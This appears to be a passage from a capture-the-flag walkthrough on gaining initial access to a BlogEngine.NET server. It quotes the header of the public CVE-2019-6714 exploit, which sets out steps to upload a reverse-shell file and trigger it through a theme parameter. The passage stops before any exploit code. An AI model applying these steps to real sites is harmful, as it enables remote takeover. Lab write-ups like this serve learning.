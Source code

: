 
There are a few exploits, this one seems the correct one to gain a reverse shell:

<figure><img src="../../.gitbook/assets/Untitled 13 (2).png" alt=""><figcaption></figcaption></figure>

### Using the public exploit, gain initial access to the server. Who is the webserver running as? <a href="#user-content-using-the-public-exploit-gain-initial-access-to-the-server-who-is-the-webserver-running" id="user-content-using-the-public-exploit-gain-initial-access-to-the-server-who-is-the-webserver-running"></a>

First of all we have to download the exploit (or use it using msfconsole I guess) and configure it. This time I’ll do it without using metasploit:

```
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
```